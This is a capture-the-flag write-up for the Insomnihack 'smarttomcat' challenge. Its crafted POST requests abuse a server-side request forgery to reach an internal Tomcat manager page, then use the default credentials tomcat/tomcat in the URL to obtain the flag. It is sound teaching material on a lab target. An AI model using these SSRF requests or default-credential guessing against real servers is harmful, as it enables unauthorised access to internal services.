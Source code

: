 >Normal, regular cats are so 2000 and late, I decided to buy this allegedly smart tomcat robot
Now the damn thing has attacked me and flew away. I can't even seem to track it down on the broken search interface... Can you help me ?
[Search interface](http://smarttomcat.teaser.insomnihack.ch/)

This is a simple challenge.

We have a web application to locate places from coordinates. A standard request would look like this:

```
POST /index.php HTTP/1.1
Host: smarttomcat.teaser.insomnihack.ch

u=http://localhost:8080/index.jsp?x=1%26y=2
```

We try

```
POST /index.php HTTP/1.1
Host: smarttomcat.teaser.insomnihack.ch

u=http://localhost:8080/zzz
```
and got: 

```
<html><head><title>Apache Tomcat/7.0.68 (Ubuntu) - Error report</title><style><!--H1 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:22px;} H2 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:16px;} H3 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:14px;} BODY {font-family:Tahoma,Arial,sans-serif;color:black;background-color:white;} B {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;} P {font-family:Tahoma,Arial,sans-serif;background:white;color:black;font-size:12px;}A {color : black;}A.name {color : black;}HR {color : #525D76;}--></style> </head><body><h1>HTTP Status 404 - /zzz</h1><HR size="1" noshade="noshade"><p><b>type</b> Status report</p><p><b>message</b> <u>/zzz</u></p><p><b>description</b> <u>The requested resource is not available.</u></p><HR size="1" noshade="noshade"><h3>Apache Tomcat/7.0.68 (Ubuntu)</h3></body></html>
```

Now let's try to read the contents of the Manager page

```
POST /index.php HTTP/1.1
Host: smarttomcat.teaser.insomnihack.ch

u=http://localhost:8080/manager/html
```

The response is

```
<html><head><title>Apache Tomcat/7.0.68 (Ubuntu) - Error report</title><style><!--H1 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:22px;} H2 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:16px;} H3 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:14px;} BODY {font-family:Tahoma,Arial,sans-serif;color:black;background-color:white;} B {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;} P {font-family:Tahoma,Arial,sans-serif;background:white;color:black;font-size:12px;}A {color : black;}A.name {color : black;}HR {color : #525D76;}--></style> </head><body><h1>HTTP Status 401 - </h1><HR size="1" noshade="noshade"><p><b>type</b> Status report</p><p><b>message</b> <u></u></p><p><b>description</b> <u>This request requires HTTP authentication.</u></p><HR size="1" noshade="noshade"><h3>Apache Tomcat/7.0.68 (Ubuntu)</h3></body></html>
```

This application requires login, we know that tomcat uses the basic authent and the credential can be [passed in URL] (http://serverfault.com/questions/371907/can-you-pass-user-pass-for- http-basic-authentication-in-url-parameters). With a little luck, I guess the account is `tomcat / tomcat`

```
POST /index.php HTTP/1.1
Host: smarttomcat.teaser.insomnihack.ch

u=http://tomcat:tomcat@localhost:8080/manager/html
```

and we got the flag

```
We won't give you the manager, but you can have the flag : INS{th1s_is_re4l_w0rld_pent3st}
```

